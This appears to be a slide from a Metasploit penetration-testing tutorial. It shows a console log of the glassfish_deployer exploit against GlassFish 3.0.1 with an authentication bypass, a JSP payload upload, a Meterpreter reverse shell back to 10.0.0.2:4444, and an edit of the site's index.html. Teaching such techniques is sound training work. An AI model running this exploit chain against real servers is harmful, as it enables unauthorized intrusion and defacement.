

# Basic Theory of Exploiting a System with Metasploit
22
5.  Exploitation and Post-Exploit Activities
msf exploit(glassfish_deployer) > exploit

[*] Started reverse handler on 10.0.0.2:4444
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://10.0.0.1:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Attempting to automatically select a target...
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /w9REn53jvtOzvGJPMU/r2MLTenOMJh7VtGbkKku.jsp...
[*] Sending stage (768512 bytes) to 10.0.0.1
[*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.1:49251) at 2013-11-23 21:25:38 -0500
[*] Getting information to undeploy...
[*] Undeploying w9REn53jvtOzvGJPMU...
[*] Undeployment complete.

meterpreter > edit C:\glassfishv3\glassfish\domains\domain1\docroot\index.html